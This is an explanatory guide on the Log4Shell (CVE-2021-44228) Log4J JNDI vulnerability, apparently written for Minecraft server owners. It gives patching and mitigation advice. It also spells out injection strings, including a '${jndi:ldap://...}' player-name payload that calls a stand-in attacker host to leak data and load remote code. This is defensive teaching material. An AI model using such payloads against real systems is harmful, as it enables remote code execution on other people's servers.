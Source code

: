 # Log4J JNDI Exploit

## What is Log4J?

Log4J is the most popular logging library in the Java world. It is used everywhere. You can name any company, they are probably using it, if they have services running Java.
It is so popular, there are many variants for other languages which were inspired by Log4J.

Each log message is sent to a set of previously configured "appenders" which
write or send the data to different locations. This can be a file, database or many others.

## Log4Shell Vulnerability

The exploit was submitted to Apache by Alibaba on November 24, 2021. It was then published in a tweet on December 9, 2021. The vulnerability was given the descriptor "Log4Shell"
and CVE number [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). It was also given the maximum CVSS score: 10/10. This marks it as very severe, as it is used
by millions of servers and computer around the world.

## Lookups

Log4J supports **lookups**. This allows for logging information about the system (time, date, version, ...). This can be done with a simple syntax in the message
string you give to Log4J when logging something or in the configuration.
Your entered string is then evaluated by Log4J and it then replaces your string with some meaningful data, if you asked for it.

I.e. if I want to get the current OS:

```java
${java:os}
```

This does also work recursively, which means you can nest multiple expressions inside of each other. More on lookups can be found [here](https://logging.apache.org/log4j/2.x/manual/lookups.html).

Now, this is kind of a problem, but not a that severe one. We'll come to the real big problem of this exploit later. Take the following example:

You are running a Minecraft server. Someone is joining with a modified client. The client does not send his real name. Instead, he sends this:

```java
${java:hw}
```

This is a lookup, which will also be logged and evaluated when logged in the server logs. Instead of this string, it'll log your own hardware information.
Now, this isn't really a big problem. This just means you kind of can't really trust your logs anymore. But we're just getting started.

## JNDI

JNDI is the Java Naming and Directory Interface, which is able to lookup data in other services. These can be LDAP, DNS, RMI and some other servers. This is **not** a part of
Log4J and is included in Java. Don't confuse this.

Such a lookup could look like this:

```java
${jndi:ldap://mycoolserver.com/some-data}
```

How can an attacker make use of this? It works like this: Let's take our example with the minecraft server again. The attacker is joining again and is sending
a modified player name:

```java
${jndi:ldap://totallytrustworthyserver.tk/${java:runtime}}
```

In this JNDI lookup, Log4J will send a request to the LDAP server at totallytrustworthyserver.tk and will send the servers Java runtime information.
Now our attacker already knows the exact Java version and distribution we're running.

The LDAP server can also return something, for example a Java object. JNDI will happily accept this response and execute it. Now this is a big problem.
Just to rehearse: There is a foreign piece of code with potentially bad instructions in it, that is executed on **your** server without your knowledge.

As this is a complicated topic, we won't go deeper into this. If you want to learn more, you can find good resources online for further reading.

## How do I secure myself?

An important rule in the whole IT is to always install the latest security updates. These also include patches like this one here.

If you are using Log4J in your application, make sure to update to version 2.17.0 or later. If you're unable to do this, make sure to
remove `org.apache.logging.log4j.core.lookup.JndiLookup` from your classpath.

!!! note

    Only `log4j-core` was affected by this vulnerability. If you're only using log4j-api (i.e. in a Minecraft plugin) your project is not affected.

Update your server to the latest version available. Make sure the maintainers have updated their Log4J dependency. Some older versions of some server software may not be
maintained anymore. You then have to manually make sure, it's dependency is up to date.

Not only servers were affected by this, everyone was. So was also your Minecraft client (the game). If your version is up to date, there is no need to worry. Versions before
1.7 are not affected. Third-party launchers and clients may not be automatically updated. Make sure the maintainers have updated their Log4J.

Also, take a look at [Minecraft's official statement](https://help.minecraft.net/hc/en-us/articles/4416199399693-Security-Vulnerability-in-Minecraft-Java-Edition) and [Instructions for Forge Users](https://gist.github.com/TheCurle/f15a6b63ceee3be58bff5e7a97c3a4e6).
